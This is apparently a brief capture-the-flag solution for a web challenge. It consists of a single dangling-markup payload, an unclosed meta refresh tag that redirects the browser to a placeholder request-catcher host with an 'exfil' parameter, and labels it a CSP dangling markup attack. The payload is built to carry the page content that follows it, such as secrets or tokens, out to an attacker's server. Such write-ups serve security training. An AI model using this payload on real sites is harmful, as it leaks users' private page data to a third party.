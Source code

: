 # Solution

Paste this command:
`<meta http-equiv="refresh" content='0;URL=https://[request catcher url]/exfil/?exfil=`

This is basically a CSP dangling markup attack.